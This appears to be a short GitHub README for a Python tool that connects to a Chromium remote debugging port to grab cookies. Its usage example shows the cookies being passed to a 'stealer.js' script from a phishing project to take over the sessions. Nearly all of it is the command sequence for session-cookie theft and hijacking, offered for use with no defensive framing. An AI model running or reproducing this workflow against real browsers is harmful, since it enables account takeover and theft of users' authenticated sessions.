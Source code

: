 # cookie-remote-debugger
python script for connecting to chromium remote debugging port and grabbing cookies

```
python3 grab-cookies.py -h
usage: grab-cookies.py [-h] -p PORT

Grab cookies from a remote debugger

options:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  The Port of the remote debugger
```

Example
```
# Grab cookies
python3 grab-cookies.py -p 9222 

# Clone Project
cd 
git clone https://github.com/fkasler/cuddlephish
cd cuddlephish

# Install Dependencies Example on Debian 
curl -fsSL https://deb.nodesource.com/setup_23.x -o nodesource_setup.sh
sudo -E bash nodesource_setup.sh
sudo apt-get install nodejs
npm install

# Import Cookies
cp ~/cookie-remote-debugger/cuddlephish_YYYY-MM-DD_HH-MM-SS.json .
node stealer.js cuddlephish_YYYY-MM-DD_HH-MM-SS.json
```